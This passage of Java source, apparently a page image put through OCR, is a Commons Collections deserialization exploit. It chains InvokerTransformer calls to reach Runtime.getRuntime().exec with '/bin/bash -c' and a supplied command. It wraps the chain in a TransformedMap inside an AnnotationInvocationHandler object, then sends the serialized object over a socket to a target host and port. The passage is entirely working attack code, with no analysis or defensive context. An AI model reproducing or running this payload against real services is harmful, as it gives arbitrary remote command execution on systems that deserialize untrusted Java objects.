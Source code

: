 ```java
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer         tchain      = new ChainedTransformer( tarray );
        Map                 normalMap   = new HashMap();
        normalMap.put( "value", "anything" );
        Map                 transformedMap
                                        = TransformedMap.decorate( normalMap, null, tchain );
        Class               clazz       = Class.forName( "sun.reflect.annotation.AnnotationInvocationHandler" );
        Constructor         cons        = clazz.getDeclaredConstructor( Class.class, Map.class );
        cons.setAccessible( true );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/lang/annotation/Target.html
         *
         * 第一形参可以用Retention、Target、Repeatable
         */
        Object              obj         = cons.newInstance( Repeatable.class, transformedMap );
        Socket              s_connect   = new Socket( addr, port );
        ObjectOutputStream  oos         = new ObjectOutputStream( s_connect.getOutputStream() );
        oos.writeObject( obj );
        oos.close();
        s_connect.close();
    }
}
```
